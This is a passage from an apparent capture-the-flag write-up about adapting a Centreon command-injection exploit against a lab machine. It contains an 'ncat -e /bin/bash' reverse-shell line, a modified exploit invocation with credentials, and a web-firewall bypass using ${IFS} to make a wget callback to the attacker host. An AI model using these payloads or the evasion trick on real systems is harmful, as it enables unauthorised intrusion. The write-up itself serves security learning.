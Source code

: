     url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    command = sys.argv[4]
    

And in the middle, I replaced:

    
    
    "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
    

with:

    
    
    "nagios_bin": command,
    

That was good enough as far as script upgrades to get a shell. But I did play
with it some more, which I’ll talk about in Beyond Root.

### WAF Testing

I knew that `hostname` triggered the WAF earlier on this box. It does here as
well:

    
    
    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 "hostname"
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : 394206ab8aca7d49e54f2cd3a4a3bd1d
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : 2cbdf5f8ce42cbeebde67e8925bfc04b
    [*] Payload inject status code: 403
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !
    

So I started checking different commands. `nc` gave a 403, but `curl` and
`wget` were good. Armed with those, I wanted to see if I could create a
connection back. I ran `python3 -m http.server 80` and then issued `wget
10.10.14.30`. It returned 403.

My first thought was that it was blocking on IP addresses. So I tried `wget
wget`, but it still failed. I tried `wget ` (there’s a space at the end), and
it returned 403! It seems that space is blocked at the firewall. This is a
pretty unrealistic challenge, and I suspect completely breaks the Centreon
application. But I’ll continue.

I know a way to say space without using that character is the `${IFS}`
variable. I’ll give it a try, making sure to put my payload in single quotes
so that my bash doesn’t evaluate the variable:

    
    
    root@kali# ./centreon-0xdf.py http://10.10.10.157/centreon/ admin password1 'wget${IFS}10.10.14.30'
    [+] Retrieving CSRF token to submit the login form
    [+] Login token is : c3e06f0952f4b5ed743cf4be0a4434a0
    [+] Logged In Sucssfully
    [+] Retrieving Poller token
    [+] Poller token is : ed900e21690e570728e12e1cba70c926
    [*] Payload inject status code: 200
    [+] Injecting Done, triggering the payload
    [+] Check you netcat listener !
    